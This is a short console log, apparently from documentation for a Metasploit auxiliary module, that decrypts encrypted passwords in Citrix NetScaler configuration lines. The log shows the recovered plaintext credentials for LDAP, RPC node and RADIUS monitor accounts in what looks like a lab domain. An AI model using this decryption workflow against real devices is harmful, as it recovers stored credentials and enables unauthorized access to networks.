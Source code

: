 ```
[+] User: ldap@cesium137.io
[+] Pass: Gr33n3gg$
[*] Config line:
set ns rpcNode 192.168.10.14 -password 2634fa338c457cb32fdf245873874a9b8fcd7128f6534641f49ea650e9f0974b -encrypted -encryptmethod ENCMTHD_3 -kek -suffix 2022_05_18_14_00_35 -srcIP 192.168.10.14
[+] Plaintext: SamIAm!
[*] Config line:
set ns rpcNode 192.168.10.15 -password 6955e686fc5dd3beee5013dad0e0fa6510a56029b52cc7d7ed15082a60ec6ce4 -encrypted -encryptmethod ENCMTHD_3 -kek -suffix 2022_05_18_14_00_35 -srcIP 192.168.10.14
[+] Plaintext: SamIAm!
[*] Config line:
add lb monitor mon_ldaps LDAP -scriptName nsldap.pl -dispatcherIP 127.0.0.1 -dispatcherPort 3013 -password cc1f6bb054f5d63d5eb871fdd36ff573f3343c1e0238965682460c6f084d1e14-encrypted -encryptmethod ENCMTHD_3 -kek -suffix 2022_05_18_14_00_35 -LRTM DISABLED -secure YES -baseDN "DC=cesium137,DC=io" -bindDN ldap@cesium137.io -filter CN=builtin -devno 13862
[+] User: ldap@cesium137.io
[+] Pass: Gr33n3gg$
[*] Config line:
add lb monitor mon_ldap LDAP -scriptName nsldap.pl -dispatcherIP 127.0.0.1 -dispatcherPort 3013 -password 5c35e0aa5c3d999e9ff10de1fa32910f9ac28b1ee8824c2301ac964e1f5f987e-encrypted -encryptmethod ENCMTHD_3 -kek -suffix 2022_05_18_14_00_35 -LRTM DISABLED -destPort 636 -secure YES -baseDN "DC=cesium137,DC=io" -bindDN ldap@cesium137.io -filter CN=builtin -devno 13863
[+] User: ldap@cesium137.io
[+] Pass: Gr33n3gg$
[*] Config line:
add lb monitor mon-radius RADIUS -respCode 2 -userName ldap -password fda3a1c5990558d4bfae059f27191f4c91a2dfa826d7318db287e109f5da39f9 -encrypted -encryptmethod ENCMTHD_3 -kek -suffix 2022_05_18_14_00_35  -LRTM DISABLED -resptimeout 4 -destPort 1812 -devno 13864
[+] User: ldap
[+] Pass: Gr33n3gg$
[*] Auxiliary module execution completed
msf auxiliary(admin/citrix/citrix_netscaler_config_decrypt) > 
```

